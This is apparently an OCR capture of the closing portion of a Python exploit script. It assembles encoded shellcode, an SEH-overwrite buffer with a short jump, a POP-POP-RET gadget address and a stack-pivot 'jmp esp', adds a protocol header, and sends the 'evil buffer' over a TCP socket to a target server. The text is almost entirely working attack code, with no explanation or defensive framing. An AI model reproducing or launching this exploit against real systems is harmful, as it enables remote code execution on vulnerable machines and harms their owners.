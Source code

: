 ```
  shellcode += b"\x96\xaf\xcd\x6f\xaf\xb8\xed\xa0\x17\xa8\x13"
  shellcode += b"\x41\x67\xe0\xd7\x15\x37\x9a\xfe\x15\xdc\x5a"
  shellcode += b"\xfe\xc3\x48\x51\x68\x2c\x24\x13\x6d\xc4\x36"
  shellcode += b"\xdc\x6c\xaf\xbf\x3a\x3e\x9f\xef\x92\xff\x4f"
  shellcode += b"\x4f\x43\x68\x9a\x40\xbc\x88\xa5\x8b\xd5\x23"
  shellcode += b"\x4a\x65\x8d\xdb\xf3\x2c\x45\x7d\xfb\xfb\x23"
  shellcode += b"\xbd\x77\x09\xd3\x70\x70\x78\xc7\x65\xe7\x82"
  shellcode += b"\x17\x76\x82\x82\x7d\x72\x04\xd5\xe9\x78\x71"
  shellcode += b"\x11\xb6\x83\x54\x22\xb1\x7c\x29\x12\xc9\x4b"
  shellcode += b"\xbf\x1a\xa5\xb3\x2f\x9a\x35\xe2\x25\x9a\x5d"
  shellcode += b"\x52\x1e\xc9\x78\x9d\x8b\x7e\xd1\x08\x34\xd6"
  shellcode += b"\x85\x9b\x5c\xd4\xf0\xec\xc2\x27\xd7\x6e\x04"
  shellcode += b"\xd7\xa5\x58\xad\xbf\x55\xd9\x4d\x3f\x3c\xd9"
  shellcode += b"\x1d\x57\xcb\xf6\x92\x97\x34\xdd\xfa\xbf\xbf"
  shellcode += b"\xb0\x49\x5e\xbf\x98\x0c\xfe\xc0\x2f\x95\xf1"
  shellcode += b"\xbb\x40\x2a\xf2\x3b\x49\x4f\xf3\x3b\x75\x71"
  shellcode += b"\xc8\xed\x4c\x07\x0f\x2e\xeb\x18\x3a\x13\x5a"
  shellcode += b"\xb3\x44\x07\x9c\x96"
  shellcode+= b"\x43" * (400 - len(shellcode))

  inputBuffer = b"\x41" * 124
  inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
  inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
  inputBuffer+= b"\x90" * 2
  inputBuffer+= b"\x66\x81\xc4\x30\x08"   # add sp, 0x830
  inputBuffer+= b"\xff\xe4"               # jmp esp
  inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
  inputBuffer+= shellcode

  header =  b"\x75\x19\xba\xab"
  header += b"\x03\x00\x00\x00"
  header += b"\x00\x40\x00\x00"
  header += pack('<I', len(inputBuffer))
  header += pack('<I', len(inputBuffer))
  header += pack('<I', inputBuffer[-1])

  buf = header + inputBuffer 

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buf)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```